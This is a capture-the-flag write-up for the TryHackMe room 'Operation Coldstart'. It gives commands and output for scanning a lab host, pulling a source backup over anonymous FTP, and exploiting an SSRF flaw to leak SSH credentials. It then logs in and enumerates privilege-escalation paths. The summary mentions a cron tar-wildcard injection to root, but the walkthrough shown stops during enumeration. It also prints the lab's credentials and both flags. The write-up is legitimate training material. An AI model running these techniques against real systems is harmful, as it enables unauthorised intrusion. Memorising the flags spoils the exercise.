# Operation Coldstart — Internal Staging Server Compromise

*From Anonymous FTP Leak to Root via SSRF-Chained Credential Disclosure and Cron Tar-Wildcard Injection*

**TryHackMe Room:** Operation Coldstart &nbsp;|&nbsp; **Engagement Type:** Black-Box Linux Host Compromise

---

## Task Scenario

Volt Labs, a small SaaS shop, suspects an old staging server has rotted into an exposed liability. Mara (the engagement contact) has assigned the tester to find a way in and demonstrate full compromise of the box.

### Scope and Rules of Engagement

| Machine | Role | Access |
|---|---|---|
| Lab machine (`10.49.132.254`) | Volt Labs staging server | Directly accessible via VPN or AttackBox |

**In scope:**
- All services running on the lab machine
- Any credentials, source code, or backups discovered along the way
- Privilege escalation to root

**Objective:**
- Retrieve the contents of `user.txt`
- Retrieve the contents of `flag.txt`


*Figure 0 — Room brief: find a way in and demonstrate full compromise of the Volt Labs staging server.*

---

## Summary

The engagement began with a **port scan** that revealed FTP, SSH, and an internal HTTP tool on the target. **Anonymous FTP access** was enabled and exposed a `backup.tar.gz` archive containing the full source code of an internal "URL Preview Service" Flask application. Static review of `app.py` revealed an **SSRF vulnerability gated by a hostname allow-list** — the only allowed hostname (`kestrel.thm`) resolved to `127.0.0.1` via `/etc/hosts`, and a separate `/admin/` route was restricted to loopback requests only. By requesting the preview endpoint with the allow-listed hostname pointed at the admin path, the **server was tricked into proxying a request to itself**, satisfying the loopback check and leaking an internal `admin_notes.txt` file containing **plaintext SSH credentials** for the user `webdev`.

After SSHing in and retrieving `user.txt`, privilege-escalation enumeration ruled out SUID binaries, sudo rights, and the application's own service account (`voltapp`, which owned a read-only app directory). A writable-path sweep uncovered `/opt/backups`, a directory owned by `webdev` but consumed by a **root-owned cron job** (`/etc/cron.d/voltlabs-backup`) that ran `tar czf /var/backups/uploads.tgz *` every minute from inside that directory. Because `tar`'s wildcard expansion can be hijacked with specially-named files, a **tar wildcard injection** (`--checkpoint=1` / `--checkpoint-action=exec=...`) was used to get the root cron job to execute an arbitrary script, which set the **SUID bit on `/bin/bash`**. Running `/bin/bash -p` then yielded an effective-root shell, used to read `flag.txt` and complete the room.

### Quick-Reference Answers

| Milestone | Answer |
|---|---|
| Open ports | 21 (FTP), 22 (SSH), 80 (HTTP) |
| FTP access | Anonymous login allowed, read-only |
| Leaked source archive | `backup.tar.gz` → `voltlabs-preview/` (Flask app source) |
| SSRF allow-listed hostname | `kestrel.thm` → resolves to `127.0.0.1` |
| SSRF → credential leak | `/preview?url=http://kestrel.thm/admin/notes` |
| SSH credentials | `webdev` / `V0ltLabs#summer` |
| `user.txt` | `THM{96dc7bd50d2fb98fcece01560788b5ab}` |
| Privilege escalation vector | Tar wildcard injection on root cron job (`/etc/cron.d/voltlabs-backup`) |
| `flag.txt` | `THM{e6ee84a483d67ade06936fcfd1433e8a}` |

---

## Techniques, Commands, and Walkthrough

Techniques are grouped below in the order they were applied during the engagement. Each section names the technique category, the commands used (and why), and the corresponding evidence captured during testing. **Only steps that produced working results are included.**

### 1. Network Reconnaissance — Port & Service Scanning

**Category:** Network/Service Reconnaissance

`rustscan` was used for a fast initial port sweep, chained directly into `nmap` script/version scanning on any discovered ports via its `--` passthrough syntax. This avoids waiting on a full top-1000 `nmap` scan and gets detailed service/version data in one command.

```bash
rustscan -b 500 -a 10.49.132.254 --top -- -sC -sV -Pn
```

- `-b 500` — batch size (parallel sockets) for the rustscan port sweep
- `-a 10.49.132.254` — target address
- `--top` — scan the top common ports only (fast pass)
- `-- -sC -sV -Pn` — passes everything after `--` straight to `nmap`: run default scripts (`-sC`), detect service/version (`-sV`), and skip host-discovery ping (`-Pn`, since ICMP is often filtered on lab VMs)

**Result:** three open ports — `21/tcp` (FTP), `22/tcp` (SSH), `80/tcp` (HTTP).


*Figure 1 — Launching rustscan against 10.49.132.254, chained into an nmap version/script scan.*

```text
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16
80/tcp open  http    Gunicorn — "URL Preview - Volt Labs"
```

Key findings from the script output:
- FTP (`vsftpd 3.0.5`) explicitly reported **`ftp-anon: Anonymous FTP login allowed (FTP code 230)`**
- HTTP (port 80) was a Python **Gunicorn** app titled *"URL Preview — Volt Labs"*, described in its banner as an *"Internal tool. Paste a URL below to preview its contents."*


*Figure 2 — Full service scan results: vsftpd 3.0.5 with anonymous login enabled, OpenSSH 9.6p1, and a Gunicorn-hosted internal URL preview tool on port 80.*

---

### 2. Anonymous FTP Enumeration — Backup Archive Disclosure

**Category:** Misconfiguration Exploitation — Anonymous Service Access

Since `nmap` confirmed anonymous FTP login was permitted, the FTP service was connected to directly using the `anonymous` account (blank/any password), then recursively browsed for accessible files.

```bash
ftp 10.49.132.254
# Name: anonymous
# Password: (blank)

ftp> ls -la
ftp> cd pub
ftp> ls -la
ftp> get backup.tar.gz
```

- `ls -la` — list the FTP root; revealed a single `pub` subdirectory
- `cd pub` — move into the subdirectory
- `ls -la` (again) — revealed a world-readable `backup.tar.gz` (2446 bytes)
- `get backup.tar.gz` — download the archive to the local attacking machine for offline analysis

**Result:** `backup.tar.gz` successfully retrieved.


*Figure 3 — Anonymous FTP login, navigating into `pub/`, and downloading `backup.tar.gz`.*

---

### 3. Archive Extraction — Source Code Recovery

**Category:** Post-Download Triage / Static Source Review Prep

The downloaded archive was extracted locally and its contents enumerated to identify what kind of backup it was.

```bash
tar -xvzf backup.tar.gz
find . -type f | xargs ls -la
```

- `tar -xvzf` — extract the gzip-compressed tarball verbosely (`-x` extract, `-v` verbose, `-z` gzip, `-f` file)
- `find . -type f | xargs ls -la` — recursively list every extracted file with full permission/size/date detail, to quickly spot anything sensitive

**Result:** the archive unpacked into a `voltlabs-preview/` directory containing the **full source** of the internal URL Preview Service seen on port 80:

```text
voltlabs-preview/requirements.txt
voltlabs-preview/README.md
voltlabs-preview/app.py
```


*Figure 4 — Extracting backup.tar.gz revealing the full Flask application source (`app.py`, `README.md`, `requirements.txt`).*

---

### 4. Static Source Code Review — Identifying the SSRF

**Category:** Source Code Analysis / Vulnerability Discovery

With full source available, the application logic was read directly rather than black-box fuzzing the live service — a much faster and more reliable way to find the exact exploitable flaw.

```bash
cat voltlabs-preview/README.md
cat voltlabs-preview/requirements.txt
cat voltlabs-preview/app.py
```

**Findings from `README.md` / `requirements.txt`:**
- Run with `gunicorn -b 0.0.0.0:80 app:app` (confirms the Gunicorn banner seen in the nmap scan)
- Admin routes are described as "gated by source-IP check (localhost only)"
- Dependencies: `flask`, `requests`, `gunicorn`


*Figure 5 — README confirming localhost-only admin gating, requirements.txt, and the beginning of app.py showing the hostname allow-list.*

**Findings from `app.py` (the vulnerability):**

```python
ALLOWED_HOSTS = {"kestrel.thm"}   # resolves to 127.0.0.1 via /etc/hosts on this box

@app.route("/preview")
def preview():
    target = request.args.get("url", "")
    host = (urlparse(target).hostname or "").lower()
    if host not in ALLOWED_HOSTS:
        return ..., 403
    r = requests.get(target, timeout=3)   # server-side fetch — SSRF primitive
    ...

@app.route("/admin/")
@app.route("/admin/<path:p>")
def admin(p="index"):
    if not request.remote_addr.startswith("127."):   # loopback-only check
        abort(403)
    if p == "notes":
        with open("/opt/voltlabs-preview/admin_notes.txt") as f:
            return "<pre>" + f.read() + "</pre>"
    return "<pre>Volt Labs admin endpoint.</pre>"
```

**The chainable flaw:** `/preview` only validates the request's **hostname** against an allow-list — it does not check scheme or path, and the one allowed hostname (`kestrel.thm`) resolves to `127.0.0.1`. Meanwhile `/admin/notes` only checks that the *inbound request's source IP* starts with `127.`. Since `/preview` makes the Flask app itself issue the `requests.get()` call, pointing `/preview?url=` at `kestrel.thm/admin/notes` causes the **server to request its own loopback admin route**, satisfying the IP check and leaking the contents of `admin_notes.txt` — a classic SSRF-to-authentication-bypass chain.


*Figure 6 — The `/admin/` route's loopback-only guard and its handling of `/admin/notes`, which reads `admin_notes.txt` from disk.*

---

### 5. SSRF Exploitation — Loopback Admin Route Disclosure

**Category:** Server-Side Request Forgery (SSRF) — Authentication Bypass via Trusted Internal Pivot

The vulnerability identified via source review was exploited directly through the browser (and equally reproducible with `curl`) by requesting the preview endpoint with the allow-listed hostname pointed at the restricted admin path.

```text
http://10.49.132.254/preview?url=http://kestrel.thm/admin/notes
```

Equivalent `curl` form:
```bash
curl "http://10.49.132.254/preview?url=http://kestrel.thm/admin/notes"
```

- `url=http://kestrel.thm/admin/notes` — passes the SSRF check because `kestrel.thm` is in `ALLOWED_HOSTS`
- Server-side, the Flask app's own `requests.get()` resolves `kestrel.thm` to `127.0.0.1` (via the box's `/etc/hosts`) and issues the request **from the server to itself**
- This satisfies the `/admin/` route's `remote_addr.startswith("127.")` check, since the request now genuinely originates from loopback

**Result:** the preview response rendered the full contents of `admin_notes.txt`, containing plaintext SSH credentials:

```text
=== INTERNAL ===
SSH access for staging:
  user: webdev
  pass: V0ltLabs#summer
- Mara
```


*Figure 7 — Browsing to `/preview?url=http://kestrel.thm/admin/notes` leaks plaintext SSH credentials for the `webdev` account.*

---

### 6. SSH Foothold & Flag Retrieval

**Category:** Initial Foothold / Local Flag Capture

The leaked credentials were used to authenticate over SSH directly.

```bash
ssh webdev@10.49.132.254
# password: V0ltLabs#summer

whoami
ls -la
cat user.txt
```

- `whoami` — confirms the logged-in identity (`webdev`)
- `ls -la` — lists the home directory, surfacing `user.txt`
- `cat user.txt` — reads the first flag

**Result:** `THM{96dc7bd50d2fb98fcece01560788b5ab}`


*Figure 8 — Successful SSH authentication as webdev using the leaked credentials.*


*Figure 9 — Reading user.txt, and confirming `webdev` has no sudo rights on the box.*

```bash
sudo -l
```
**Result:** `Sorry, user webdev may not run sudo on coldstart.` — ruled out sudo delegation as a privesc path early, directing enumeration elsewhere.

---

### 7. Privilege Escalation Enumeration — Ruling Out Dead Ends

**Category:** Post-Exploitation Enumeration — Local Privilege Escalation Discovery

A systematic sweep was run to identify a viable escalation path, methodically eliminating common vectors before finding the real one.

**SUID binaries and the system crontab:**
```bash
cat /etc/crontab
find / -perm -4000 -type f 2>/dev/null \
  | grep -vE "sudo|su$|passwd|mount|umount|newgrp|gpasswd|chsh|chfn|pkexec|ssh-keysign|/usr/lib/xorg"
```
- `find / -perm -4000 -type f` — locates every SUID binary on the filesystem
- The `grep -v` filter strips out well-known, benign stock-Ubuntu SUID binaries so only unusual entries remain for manual review
- **Result:** only standard snap/dbus/polkit helper binaries remained — no exploitable SUID binary found. The system crontab was also the Ubuntu default (`cron.hourly/daily/weekly/monthly` via `run-parts`) — nothing custom.


*Figure 10 — Default system crontab and a filtered SUID binary search showing only benign, stock entries.*

**Systemd services (looking for anything root-owned and app-related):**
```bash
cat /etc/systemd/system/*.service 2>/dev/null
systemctl list-units --type=service --all | grep -i volt
```
- Dumped every custom unit file on the box to check what ran as root and how
- Identified a THM-infrastructure "Badr Service" (self-deletes its own config on boot — part of the room's scaffolding, not the intended path) and confirmed the real target service


*Figure 11 — Reviewing all custom systemd service files on the box, including THM's own room-management service.*

**Result — the application's real service definition:**
```ini
[Service]
Type=simple
User=voltapp
Group=voltapp
WorkingDirectory=/opt/voltlabs-preview
ExecStart=/opt/voltlabs-preview/venv/bin/gunicorn -w 2 -b 0.0.0.0:80 app:app
AmbientCapabilities=CAP_NET_BIND_SERVICE
NoNewPrivileges=yes
```
The preview app runs as the **unprivileged `voltapp` user**, not root — so even a full app compromise would not directly yield root.


*Figure 12 — The voltlabs-preview systemd service, running as the `voltapp` user, confirmed active via `systemctl list-units`.*

**Checking whether the app directory itself was writable:**
```bash
ls -la /opt/voltlabs-preview/
ls -la /opt/voltlabs-preview/venv/bin/
id voltapp
cat /opt/voltlabs-preview/admin_notes.txt
```
**Result:** everything under `/opt/voltlabs-preview/` was root-owned and not writable by `webdev`; `admin_notes.txt` itself returned `Permission denied` when read directly as `webdev` (confirming the SSRF was the *only* way to read it). Dead end — this path was ruled out.


*Figure 13 — The application directory and virtualenv are entirely root-owned and read-only to webdev; direct access to admin_notes.txt is denied.*

**Network services, processes, and `/etc/hosts` (checking for additional internal-only targets):**
```bash
id
groups
cat /etc/passwd | grep -E "webdev|voltapp"
ss -tulpn
netstat -tulpn 2>/dev/null
ps aux | grep root
cat /etc/hosts
```
- `ss -tulpn` / `netstat -tulpn` — list all listening sockets to check for any additional localhost-only service beyond the preview app
- `ps aux | grep root` — review all root-owned processes for anything unusual
- `cat /etc/hosts` — re-confirm `kestrel.thm → 127.0.0.1` and check for other internal hostnames

**Result:** no additional internal services found — only the preview app (80), SSH (22), FTP (21), and DNS stub resolver ports. This ruled out a "second hidden SSRF target" and redirected enumeration toward the filesystem.

